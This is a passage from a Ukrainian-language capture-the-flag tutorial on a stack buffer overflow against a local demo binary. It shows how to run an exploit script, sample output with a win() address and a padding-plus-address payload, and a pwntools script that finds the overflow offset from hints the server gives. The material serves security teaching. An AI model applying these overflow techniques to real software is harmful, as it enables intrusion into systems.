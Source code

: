 ### Крок 4: Запустіть exploit

```bash
chmod +x exploit.py
python3 exploit.py
```

### Крок 5: Отримайте прапор

```
[*] Адреса win(): 0x401136
[+] Starting local process
[*] Довжина payload: 80 байт
[*] Payload: padding(72) + address(0x401136)
[+] Receiving all data: Done
[+] Прапор: FLAG{STAGE5_HINT_OFFSET}
```

## 🔍 Детальний розбір

### Експеримент: Знаходження offset з підказками

Створіть `find_offset.py`:

```python
#!/usr/bin/env python3
from pwn import *

def find_offset():
    """Знаходить offset інтерактивно використовуючи підказки"""

    current_size = 10  # Починаємо з 10 байт

    while True:
        log.info(f"Спроба з {current_size} байтами")

        # Запускаємо процес
        io = process('../build/stage05_demo_with_hint')

        # Відправляємо дані
        payload = b'A' * current_size
        io.send(payload)

        try:
            # Читаємо відповідь
            response = io.recvline(timeout=1).decode().strip()

            if response.startswith('NEED='):
                # Сервер каже скільки бракує
                need = int(response.split('=')[1])
                log.info(f"Бракує {need} байт")
                current_size += need
            else:
                # Успіх! Отримали прапор
                log.success(f"Знайдено offset: {current_size - 8}")
                log.success(f"Прапор: {response}")
                break

        except:
            log.error("Щось пішло не так")
            break

        finally:
            io.close()
```